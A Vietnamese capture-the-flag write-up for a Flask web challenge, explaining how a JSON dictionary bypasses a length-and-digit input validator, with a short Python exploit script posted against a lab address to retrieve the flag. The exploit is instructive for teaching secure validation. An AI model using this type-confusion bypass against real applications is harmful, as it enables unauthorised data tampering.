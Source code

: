 # Sanity Check

## Description:    
Chào mừng bạn ghé thăm website “vibe coding” của mình! Thực ra mình dựng nó chỉ để test xem server cần oxi không thôi, nhưng ở đâu đó vẫn có vài lỗi nho nhỏ đang ẩn mình. Liệu bạn có tìm ra chúng không?

## Phân tích:    
Ta phân tích 1 chút cách hoạt động của trang web với đoạn code ở ```app.py```:    

-Đầu tiên ta sẽ gửi 1 request ```POST``` với ```username```, sau đó trang web sẽ tự lưu file bằng hàm ```save_to_file()``` với tên là username vừa nhập với data là 512 số 0 và redirect về ```/dashboard```:   
```python
def save_to_file(string, filename):
    """Save data to a file"""
    with open(filename, "w", encoding="utf-8") as file:
        file.write(str(string))

def get_user_filename():
    """Get user filename from session"""
    return 'user/'+os.path.basename(session.get('username'))+'.txt'

@app.route('/', methods=['GET','POST'])
def index():
    os.makedirs("user", exist_ok=True)
    if request.method == 'POST':
        session['username'] = request.form['username']
        save_to_file(default_data, get_user_filename())
        return redirect(url_for('dashboard'))
    return render_template('index.html')
```

-Sau đó, ```/update```, thực hiện đọc data từ request POST, kiểm tra với hàm ```is_valid_input()``` nếu thỏa mãn thì thực hiện lưu data vào file của user với hàm ```save_to_file()``` đồng thời trả về 1 ```JSON format``` có dạng: ```{"new_state":"...","status":"updated"}```


```python
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True

@app.route('/update', methods=['POST'])
@is_User_Exist
def update():
    try:
        data = request.json
        if(not is_valid_input(data['data'])):
            return jsonify({'error':'Invalid input'})
        save_to_file(data['data'], get_user_filename())
        return jsonify({'status': 'updated', 'new_state': data['data']})
    except Exception as e:
        return jsonify({'error':e})
```

-```/get_flag``` thực hiện đọc data từ file của user hiện tại và sẽ đưa ra flag nếu như có chuỗi ```Holactf``` ở trong đó thì trả về flag.

```python
@app.route('/get_flag', methods=['GET'])
@is_User_Exist
def get_flag():
    data=read_file(get_user_filename())
    response = FLAG if "Holactf" in data else "No :v"
    return jsonify({'flag': response})
```

==>Vậy ta chỉ cần làm cho file chứa ```Holactf``` là có thể lấy được flag, nhưng cùng phân tích về hàm ```is_valid_input()``` một chút:    

```python
NUMBER_OF_BITS = 32*16
def is_valid_input(input):
    """Check if input is valid or not"""
    if input == '' or len(input) != NUMBER_OF_BITS:
        return False
    try:
        for char in input:
            if int(char) != 0 and int(char) != 1:
                return False
    except ValueError:
        return False
    return True
```

-Hàm ```is_valid_input()``` đầu tiên sẽ kiểm tra độ dài của chuỗi mình nhập vào, nếu khác 32*16=512 thì nó return False.    
-->Sau đó hàm sử dụng 1 vòng for, ép kiểu từng kí tự trong đó và check xem có bằng 0 hoặc 1 không. 
--> Nếu tất cả thỏa mãn thì return True tức là tất cả các kí tự trong input đều phải bằng 0 hoặc 1

-Như vậy, nếu ta chèn trực tiếp chuỗi ```...Holactf...``` vào trong data để gửi request đi sẽ bị hàm valid chặn ngay.    

-Vì thế mình có nghĩ đến kiểu ```key-value``` (Dict) vì khi đi qua vòng for, python sẽ chỉ kiểm tra các ```key``` chứ không xét tới ```value```, đồng thời độ dài của dict là tổng các cặp ```key-value``` trong nó. Kiểm chứng:

![alt text](check_dict.png)

==>Vậy ta sẽ viết ```"Holactf"``` làm value của dict, ta có script sau:    
```python
import requests
url="http://172.18.49.27:5000/"
s = requests.Session()
data={
    "username": "proochicken"
}
login = s.post(url, data=data)

payload={}

for i in range(1, 512):
    payload["0"*i] = "proochicken"
payload["1"] = "Holactf"

endpoint = "update"
res = s.post(url+endpoint, json={"data":payload})

endpoint = "get_flag"
res = s.get(url+endpoint)
print(res.json())
```

